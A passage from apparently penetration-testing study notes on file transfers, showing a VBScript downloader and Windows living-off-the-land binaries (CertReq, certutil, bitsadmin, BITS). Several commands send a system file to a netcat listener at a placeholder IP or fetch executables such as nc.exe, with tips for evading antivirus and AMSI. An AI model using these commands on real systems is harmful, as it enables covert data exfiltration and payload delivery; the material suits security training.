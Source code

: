         ```
        Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
        Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
        xHttp.Open "GET", WScript.Arguments.Item(0), False
        xHttp.Send
        With bStrm
            .Type = 1 ' Binary
            .Open
            .Write xHttp.ResponseBody
            .SaveToFile WScript.Arguments.Item(1), 2 ' Overwrite
        End With
        
        ```
        
    - **Command**: `cscript.exe /nologo wget.vbs https://<URL> C:\\path\\to\\file`.
- **Pitfalls**: Windows-only; may trigger AV.
- **Tip**: Stealthy alternative to PowerShell.

---

### Living off the Land (LOLBins and GTFOBins)

### Overview

- **Definition**: "Living off the Land" (LotL) involves using native system binaries to perform unintended actions (e.g., file transfers), coined by Campbell and Graeber at DerbyCon 3.
- **Resources**:
    - **LOLBAS**: Windows binaries/scripts/libraries ([lolbas-project.github.io](http://lolbas-project.github.io/)).
    - **GTFOBins**: Linux/Unix binaries ([gtfobins.github.io](http://gtfobins.github.io/)).
- **Functions**: Downloads, uploads, command execution, file read/write, bypasses.

### Windows LOLBins (LOLBAS)

- **CertReq.exe**:
    - **Upload**:
        - Command: `certreq.exe -Post -config http://<IP>:<port>/ C:\\windows\\win.ini`.
        - Listener (Pwnbox): `sudo nc -lvnp 8000`.
        - Result: Sends file content to Netcat session (copy-paste to save).
    - **Pitfalls**: Older versions lack `Post`; may timeout (error 0x80072ee2).
    - **Tip**: Use updated version if needed (download from Microsoft).
- **Certutil.exe**:
    - **Download**:
        - Command: `certutil.exe -verifyctl -split -f http://<IP>:<port>/file.exe`.
        - Saves file locally (e.g., `nc.exe`).
    - **Pitfalls**: Detected by AMSI as malicious; web filtering may block.
    - **Tip**: Encode URL to evade detection.
- **Bitsadmin**:
    - **Download**:
        - Command: `bitsadmin /transfer wcb /priority foreground http://<IP>:<port>/file.exe C:\\path\\to\\file.exe`.
        - Uses BITS (Background Intelligent Transfer Service) for efficient downloads.
    - **Pitfalls**: Requires outbound HTTP/SMB; may be logged.
    - **Tip**: Adjust priority (e.g., `normal`) to reduce impact.
- **PowerShell BITS**:
    - **Download**:
        - Command: `Import-Module bitstransfer; Start-BitsTransfer -Source "http://<IP>:<port>/file.exe" -Destination "C:\\path\\to\\file.exe"`.
        - Supports credentials/proxy if needed.
    - **Pitfalls**: PowerShell restrictions may apply.
    - **Tip**: Stealthier than `certutil`.
